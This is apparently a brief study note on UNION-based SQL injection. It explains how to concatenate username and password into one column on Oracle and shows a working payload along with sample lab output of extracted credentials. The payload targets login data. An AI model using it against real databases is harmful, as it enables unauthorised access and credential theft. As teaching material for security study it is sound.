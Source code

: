 # Retrieving multiple values within a single column
#UNION 

If a result set only returns one column, retrieve multiple values by concatenating the values together. Ideally place a suitable separator that allow to distinguish the values.

## Oracle example

Injecting this payload

```SQL
' UNION SELECT username || '~' || password FROM users--
```

Will generate the following output

`username`~`password`

```
administrator~s3cure 
wiener~peter 
carlos~montoya
```

Different <font color="yellow">databases</font> use different <font color="green">syntax</font> to perform string concatenation.

# Exploitation
